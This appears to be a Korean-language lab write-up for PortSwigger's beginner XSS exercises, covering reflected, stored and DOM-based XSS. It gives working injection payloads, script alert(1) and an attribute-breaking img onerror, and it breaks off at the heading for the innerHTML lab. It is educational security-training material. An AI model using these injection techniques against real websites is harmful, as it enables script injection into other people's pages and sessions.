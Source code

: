 ```yaml
---
title: xss-lab-1
description: 
author: doxawahebi
date: 2025-02-25 15:39:00 +0900
categories: [web, xss]
tags: [web, xss, hacking, portswigger, apprentice]     # TAG names should always be lowercase
pin: false
math: false
mermaid: false
---
```


## Reflected XSS into HTML context with nothing encoded
---
search 창에 다음을 입력해준다.

```HTML
<script>alert(1)</script>
```

## Stored XSS into HTML context with nothing encoded
---
comment 창에 다음을 입력해준다.

```HTML
<script>alert(1)</script>
```

## DOM XSS in `document.write` sink using source `location.search`
---
`document.write`는 매개변수로 넘긴 텍스트를 그대로 문서에 작성한다.
이 때문에 XSS 취약점이 발생할 수 있다.

검색창에 아무런 단어(dsfsdfsdf)를 치면 해당 단어는 다음과 같은 `img src`의 attritbue에 입력된다는 것을 알 수 있다. 

```html
<img src="/resources/images/tracker.gif?searchTerms=dsfsdfsdf">
```

이 문제를 해결할려면 attribute를 벗어나고 alert가 실행되도록 적절한 HTML을 삽입하면 된다.

다음을 search 창에 입력해준다.
```html
"><img src=1 onerror=alert(1)>
```

## DOM XSS in `innerHTML` sink using source `location.search`
---
